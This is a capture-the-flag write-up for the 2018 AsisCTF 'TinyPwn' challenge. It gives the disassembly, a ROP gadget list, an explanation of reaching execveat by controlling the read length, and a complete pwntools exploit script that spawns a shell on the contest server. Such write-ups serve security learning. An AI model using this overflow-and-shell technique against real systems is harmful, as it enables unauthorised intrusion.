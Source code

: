 # TinyPwn AsisCTF Quals 2018

I did this problem at school, so I didn't have ida xD. You'll have to bear with objdump.

Objdumping the binary we get:

```TinyPwn:     file format elf64-x86-64


Disassembly of section .text:

00000000004000b0 <.text>:
  4000b0:       48 31 c0                xor    %rax,%rax
  4000b3:       48 31 db                xor    %rbx,%rbx
  4000b6:       48 31 c9                xor    %rcx,%rcx
  4000b9:       48 31 d2                xor    %rdx,%rdx
  4000bc:       48 31 ff                xor    %rdi,%rdi
  4000bf:       48 31 f6                xor    %rsi,%rsi
  4000c2:       4d 31 c0                xor    %r8,%r8
  4000c5:       4d 31 c9                xor    %r9,%r9
  4000c8:       4d 31 d2                xor    %r10,%r10
  4000cb:       4d 31 db                xor    %r11,%r11
  4000ce:       4d 31 e4                xor    %r12,%r12
  4000d1:       4d 31 ed                xor    %r13,%r13
  4000d4:       4d 31 f6                xor    %r14,%r14
  4000d7:       4d 31 ff                xor    %r15,%r15
  4000da:       48 31 ed                xor    %rbp,%rbp
  4000dd:       e8 10 00 00 00          callq  0x4000f2
  4000e2:       b8 3c 00 00 00          mov    $0x3c,%eax
  4000e7:       48 31 ff                xor    %rdi,%rdi
  4000ea:       48 31 f6                xor    %rsi,%rsi
  4000ed:       48 31 d2                xor    %rdx,%rdx
  4000f0:       0f 05                   syscall 
  4000f2:       48 81 ec 28 01 00 00    sub    $0x128,%rsp
  4000f9:       48 89 e6                mov    %rsp,%rsi
  4000fc:       ba 48 01 00 00          mov    $0x148,%edx
  400101:       0f 05                   syscall 
  400103:       48 81 c4 28 01 00 00    add    $0x128,%rsp
  40010a:       c3                      retq ```

  It is a tiny binary indeed. It uses syscalls to read 0x148 bytes, then returns. Easy buffer overflow. We quickly find that the padding is 0x128 until the ret address. The problem is how do we get a shell?

  We can use ROPgadget to get a list of gadgets:

  ```Gadgets information
============================================================
0x0000000000400108 : add byte ptr [rax], al ; ret
0x00000000004000ff : add byte ptr [rax], al ; syscall
0x0000000000400104 : add esp, 0x128 ; ret
0x0000000000400103 : add rsp, 0x128 ; ret
0x00000000004000e9 : dec dword ptr [rax + 0x31] ; test byte ptr [rax + 0x31], 0xd2 ; syscall
0x00000000004000fc : mov edx, 0x148 ; syscall
0x00000000004000fa : mov esi, esp ; mov edx, 0x148 ; syscall
0x00000000004000f9 : mov rsi, rsp ; mov edx, 0x148 ; syscall
0x000000000040010a : ret
0x0000000000400106 : sub byte ptr [rcx], al ; add byte ptr [rax], al ; ret
0x00000000004000f0 : syscall
0x00000000004000ec : test byte ptr [rax + 0x31], 0xd2 ; syscall
0x00000000004000e8 : xor edi, edi ; xor rsi, rsi ; xor rdx, rdx ; syscall
0x00000000004000ee : xor edx, edx ; syscall
0x00000000004000eb : xor esi, esi ; xor rdx, rdx ; syscall
0x00000000004000e7 : xor rdi, rdi ; xor rsi, rsi ; xor rdx, rdx ; syscall
0x00000000004000ed : xor rdx, rdx ; syscall
0x00000000004000ea : xor rsi, rsi ; xor rdx, rdx ; syscall```

We don't have much at our disposal, so my idea was syscall. Looking at the list of syscalls here: ```http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/``` we see that sys_execve is 0x3b. However, we don't have a pop rax gadget! :(

To get around this, we have to realize that the read syscall sets rax to be the length of the bytes read. However it requires 0x128 bytes to reach the ret address, and 0x128 > 0x3b. So we use stub_execveat instead, with opcode 0x142. For this syscall, rsi is the pointer to the execve file name, which is conveniently our buffer. Debugging this, we also find that we need to zero our rdx, otherwise it would crash, which we have a gadget for at 0x4000ed.

Final attack plan:
1) Make our input string start with /bin/sh\x00
2) Make our input string length 0x142
3) Zero out rdx
4) Syscall and get shell

```python
from pwn import *

r = process("./TinyPwn")
r = remote("159.65.125.233", 6009)

payload = "/bin/sh\x00" + "B"*(0x148-(8*4) - 8)
payload += p64(0x00000000004000ed)
payload += p64(0x400101)
payload += "A"*(0x142-len(payload)-1)

r.sendline(payload)
r.interactive()```
